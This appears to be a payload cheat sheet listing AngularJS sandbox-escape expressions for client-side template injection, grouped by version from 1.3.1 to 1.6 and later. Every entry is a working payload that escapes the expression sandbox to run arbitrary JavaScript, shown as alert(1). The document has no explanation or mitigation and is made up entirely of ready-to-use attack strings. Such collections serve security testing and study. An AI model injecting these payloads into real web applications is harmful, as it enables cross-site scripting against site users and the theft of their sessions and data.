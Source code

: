 1.3.1 - 1.3.2
```
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf; 
    $eval('x=alert(1)//'); 
}}
```

1.3.3 - 1.3.18
```
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join; 

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

1.3.19
```
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join; 
    $eval('x=alert(1)//'); 
}}
```

1.3.20
```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

1.4.0 - 1.4.9
```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

1.5.0 - 1.5.8
```
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}} 
```

1.5.9 - 1.5.11
```
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

>=1.6.0
```
{{constructor.constructor('alert(1)')()}}
```